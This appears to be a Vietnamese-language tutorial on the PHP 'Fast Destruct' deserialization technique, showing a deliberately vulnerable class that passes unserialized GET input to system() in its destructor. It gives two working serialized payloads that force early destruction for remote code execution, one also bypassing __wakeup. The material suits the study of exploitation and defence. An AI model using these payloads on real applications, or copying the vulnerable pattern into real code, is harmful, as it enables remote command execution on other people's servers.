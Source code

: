 ## Fast Destruct
# Xét trường hợp sau
```
<?php
class exploit_me
{
    public $cmd;
    public function __destruct(){
        system($this->cmd);
    }
}
$ex=$_GET['ex'];
$a= unserialize($ex);
throw new Exception("ga");
```
# Phân tích
  Như thường lệ, mỗi khi obj được khởi tạo và nếu không có gì xảy ra, nó sẽ bị hủy ở cuối chương trình, nhưng nếu ta muốn gọi hàm hủy ngay sau lệnh gọi unserialize thì sao? 
  đó là vấn đề ta sẽ tìm hiểu ngay sau đây.
  ở case trên, ta thấy sau khi unserialize thì chương trình sẽ ném ra một exception khiến chương trình không thể gọi hàm destruct khi kết thúc mã, vậy làm thế nào để ta bắt 
  nó hủy ngay sau khi unserialize? cách làm như vậy được gọi là Fast destruct 
  ở đây có một thư viện để làm điều đó, tham khảo tại
  https://github.com/ambionics/phpggc
  
 * phân tích case hiện tại
   ** chương trình có một class là exploit_me có thể thực hiện RCE nếu ra kiểm soát được cmd, vậy làm thế nào để RCE, ta hay xem một ví dụ sau
   
   ![Image of ex1](img/array.png)
   
   tạo một array chứa 2 phần tử có chung key, ngay lập tức khóa đầu tiên bị hủy , vậy chúng ta cũng cần hủy gấp nên sẽ tạo 1 array để chứa 2 phần tử có chung key
   
    ![Image of ex2](img/payload.png)
   
   ở trên sử dụng payload 
   `a:2:{i:1;O:10:"exploit_me":1:{s:3:"cmd";s:2:"ls";}i:1;i:2;`
   là một array có 2 phẩn tử nhưng cả 2 đều có chung key, nên phần tử đầu tiên sẽ bị hủy, ngay lập tức ta có RCE mà không cần chờ tới cuối chương trình
   ** cách 2
   
   ![Image of ex3](img/payload1.png)
   
   sử dụng payload 
   `O:10:"exploit_me":2:{s:3:"cmd";s:2:"ls";}`
   sau khi unserialize thì chương trình nhận thấy exploit_me chỉ có 1 thuộc tính, nhưng lúc mình truyền vào thì lại 2 dẫn tới hủy ngay lập tức, payload này có thể sử dụng để bypass __wakeup method
